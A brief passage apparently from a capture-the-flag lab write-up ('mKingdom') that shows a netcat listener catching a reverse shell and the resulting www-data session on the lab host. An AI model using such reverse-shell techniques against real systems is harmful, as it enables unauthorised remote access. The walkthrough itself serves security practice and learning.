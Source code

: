 ![11](/assets/img/mKingdom/11.png)

![12](/assets/img/mKingdom/12.png)


Get a reverse shell: 
```bash
$ nc -nvlp 4444
Connection from 10.10.56.103:43612
sh: 0: can't access tty; job control turned off
$ pwd
/var/www/html/app/castle/application/files/8617/1908/8167
$ whoami
www-data
```
